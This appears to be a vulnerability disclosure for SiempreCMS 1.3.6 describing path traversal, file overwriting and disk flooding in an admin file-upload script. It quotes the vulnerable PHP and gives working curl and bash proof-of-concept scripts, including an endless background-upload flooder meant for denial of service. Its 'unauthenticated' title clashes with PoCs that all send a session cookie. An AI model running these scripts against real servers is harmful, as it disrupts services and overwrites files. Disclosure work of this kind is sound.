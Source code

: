 # Unauthenticated File Upload Allows Server Flooding – SiempreCMS

- **Type:** Arbitrary File Upload / Resource Exhaustion  
- **Location:** `docs/admin/file_upload.php`  
- **Impact:** An attacker can upload files to arbitrary directories under `../media/`, including hidden module directories. While uploaded files cannot be executed as PHP scripts in this setup, the vulnerability allows **flooding a specific directory with large numbers of files**, potentially exhausting disk space, degrading server performance, or causing denial-of-service conditions.  
- **Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*
---

## Vulnerable Code Analysis

```php
if (isset($_POST['folder-path']) && substr($_POST['folder-path'], 0, 9) == '../media/') {
	$path = $_POST['folder-path'];
} else {
	$status = 'Bad request in folder path!';
	echo json_encode(array('status' => $status));
	exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && @is_uploaded_file($_FILES['image']['tmp_name'])) {
	$ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));
	if (in_array($ext, $valid_exts) AND $_FILES['image']['size'] < $max_size) {
		$path = $path . $_FILES['image']['name'];
		if (move_uploaded_file($_FILES['image']['tmp_name'], $path)) {
			$status = 'Image successfully uploaded!';
		} else {
			$status = 'Upload Fail: Unknown error occurred!';
		}
	} else {
		$status = 'Upload Fail: Unsupported file format or It is too large to upload!';
	}
} else {
	$status = 'Upload Fail: File not uploaded!';
}
```

### Analysis
**Folder Path Control:** The code allows uploading files to any directory that begins with ``../media/.`` By manipulating folder-path, attackers can reach hidden or sensitive directories such as ``modules/helloworld/``.

#### **File Type & Size Validation:**

-    Only extensions in ``['jpeg','jpg','png','gif','doc','docx','pdf']`` are allowed.
-    Maximum size is 1600 KB.
-    While this prevents arbitrary PHP execution, it does not prevent mass upload of allowed files.
-    No Filename Sanitization: The uploaded file name is directly concatenated to the path, allowing overwriting existing files.
-    No Execution: Uploaded files cannot be executed as PHP code in this configuration.

---
### Proof of Concept Arbitrary File Upload / Resource Exhaustion (Flooding)
#### Exploit 1: Basic Upload
-    This PoC demonstrate a file upload in other directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X POST \
 -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
 -F "folder-path=../media/../../modules/helloworld/" \
 -F "image=@sample.txt.jpeg;filename=shell.txt.jpeg" \
 http://localhost/SiempreCMS/docs/admin/file_upload.php

{"status":"Image successfully uploaded!"}
```

**Evidence:**
</br>
![](./basic.png)


#### Exploit 2: Directory Flooding
-    This PoC demonstrates uploading a large number of files to the vulnerable directory, which can consume server resources and slow down the application.

```bash
# Flood the modules/helloworld/ directory with 999999999 files
NUM_FILES=999999999

for i in $(seq 1 $NUM_FILES); do
  # Generate a sample file
  echo "This is test file $i" > sample_$i.txt
  # Rename with allowed extension
  mv sample_$i.txt sample_$i.txt.jpeg
  # Upload file
  curl -s -X POST \
   -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
   -F "folder-path=../media/../../modules/helloworld/" \
   -F "image=@sample_$i.txt.jpeg;filename=sample_$i.txt.jpeg" \
   http://localhost/SiempreCMS/docs/admin/file_upload.php
done
```

**Evidence:**
</br>
![](./cli.png)

</br>

![](./gui.png)


#### Exploit 3: Infinite Flood (Runs until stopped, DoS)
-	This script never stops — it just keeps generating and uploading files until you kill it.
```bash
#!/bin/bash

# Infinite flooder - runs until manually stopped
TARGET="http://localhost/SiempreCMS/docs/admin/file_upload.php"
COOKIE="PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl"
FOLDER_PATH="../media/../../modules/helloworld/"

i=1
while true; do
  echo "Infinite flood file $i" > flood_$i.txt
  mv flood_$i.txt flood_$i.txt.jpeg

  # Fire multiple uploads in background
  curl -s -X POST \
   -b "$COOKIE" \
   -F "folder-path=$FOLDER_PATH" \
   -F "image=@flood_$i.txt.jpeg;filename=flood_$i.txt.jpeg" \
   "$TARGET" &

  # Every 100 files, wait for background jobs to clear
  if (( $i % 100 == 0 )); then
    wait
    echo "[*] Uploaded $i files so far..."
  fi

  ((i++))
done

```

**Evidence:**
</br>
![](./floodonfire.png)

</br>

![](./floodonfire2.png)

---

### Expected Outcome
-    Hundreds of files are uploaded to ``modules/helloworld/``.
-    Disk usage in the directory increases significantly.
-    Server performance may degrade due to the large number of files.
-    Existing files in the directory can be overwritten if the same filename is used.
-    No PHP execution occurs, so it’s not remote code execution.
